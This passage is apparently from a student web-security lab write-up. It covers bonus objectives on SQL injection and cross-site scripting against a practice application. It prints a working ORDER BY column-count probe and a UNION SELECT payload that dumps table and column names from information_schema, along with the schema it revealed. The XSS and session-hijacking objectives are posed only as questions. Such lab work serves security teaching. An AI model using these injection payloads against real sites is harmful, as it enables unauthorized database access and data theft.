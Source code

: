 


## Optional

**Bonus Objective 1: Build on Objective #3 (SQL Injection). Experiment to see what other kinds of information you can get the database to reveal.**

Using a progression of injected SQL statements several table and column names stored in the database can be identified.

Progressively increasing the ORDER BY value allows detection of the number of columns in the table:

```mysql
' OR 1 ORDER BY 5-- -
```
Next, the names of tables and columns can be directed to the expected output fields that will display on the page by using the query:

```mysql
' AND 0 UNION SELECT 1,2,3,4,GROUP_CONCAT(table_name,0x2e,column_name,"\n") FROM information_schema.columns WHERE table_schema=database(); -- 
```
Resulting in the following information being displayed on the page:

```
countries.id,
countries.name,
countries.code,

failed_logins.id,
failed_logins.username,
failed_logins.count,
failed_logins.last_attempt,

feedback.id,
feedback.name,
feedback.email,
feedback.feedback,
feedback.created_at,

salespeople.id,
salespeople.first_name,
salespeople.last_name,
salespeople.phone,
salespeople.email,
salespeople_territories.territory_id
```


**Bonus Objective 2: Build on Objective #4 (Cross-Site Scripting). Experiment to see if you can use XSS to: a) direct the user to a new URL, b) read cookie data, c) set cookie data.**

**Advanced Objective: Build on Objectives #4 and #6 (XSS, hijacking/fixation). Are you able to execute a session hijacking or fixation attack using XSS instead of using the provided PHP script?**


